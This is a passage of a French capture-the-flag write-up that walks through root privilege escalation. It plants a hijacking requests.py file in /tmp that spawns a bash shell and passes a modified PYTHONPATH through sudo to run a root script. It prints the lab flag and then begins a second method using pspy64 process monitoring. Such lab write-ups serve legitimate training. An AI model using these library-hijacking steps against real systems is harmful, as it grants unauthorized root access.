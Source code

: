 * * *

#### Petit bonus :  

Si vous voulez connaître le répertoire par défaut dans lequel tous les scripts se trouvent :

```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

Il faut maintenant trouver le nom de la variable d'environnement qui permet de définir le chemin vers le répertoire par défaut des librairies de python.

Après quelques rechercent sur Internet, on trouve qu'il s'agit de la variable **PYTHONPATH**.

On va donc créer un nouveau fichier nommé ``requests.py`` dans le répertoire ``/tmp`` et qui va contenir le code pour obtenir un shell root :

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/requests.py
```

On lance ensuite les commandes suivantes pour exécuter le script en passnt également notre variable ``PAYHTONPATH`` modifiée :

```bash
export PYTHONPATH=/tmp/
sudo --preserve-env /opt/check.sh 
```

Ici on modifie d'abord la variable puis on indique l'option ``--preverse-env`` de sudo pour que les variables d'environnement restent les mêmes lorsqu'elles sont exécutées via un autre utilisateur.

On peut aussi spécifier uniquement la variable à remplacer :

```bash
sudo PYTHONPATH=/tmp/ /opt/check.sh
```

On obtient donc notre shell en tant que root !

```bash
cat /root/proof.txt
```
```
flag(058004ef45a08082100802d41fdcc290)
```


## Privesc root méthode 2

Autre méthode possible pour passer root : il suffit de lancer l'outil ``pspy64`` pour écouter en local tous les processus qui sont lancés :

```
2021/01/16 18:13:01 CMD: UID=0    PID=2394   | /usr/bin/python3 /opt/login.py
```

On voit bien ici que le script ``/opt/login.py`` qui envoie des données sur le réseau est exécuté en tant que root. 
